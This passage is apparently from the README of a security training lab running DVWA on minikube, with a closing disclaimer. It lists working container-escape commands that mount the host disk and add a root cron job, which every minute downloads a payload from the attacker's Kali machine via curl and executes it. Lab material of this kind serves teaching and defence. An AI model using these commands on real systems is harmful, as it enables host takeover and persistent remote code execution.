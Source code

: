Execute the following commands in your DVWA root shell to get a root shell from the docker host

```bash
mkdir /tmp/host-hdd
mount /dev/xvda1 /tmp/host-hdd
echo "*/1 * * * * root curl -vk http://<kali privat ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /tmp/host-hdd/etc/crontab
```

Now you got a root shell from your container host.

To delete the deployment just run:

```
kubectl delete -f dvwa-minikube-deployment.yaml
```

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.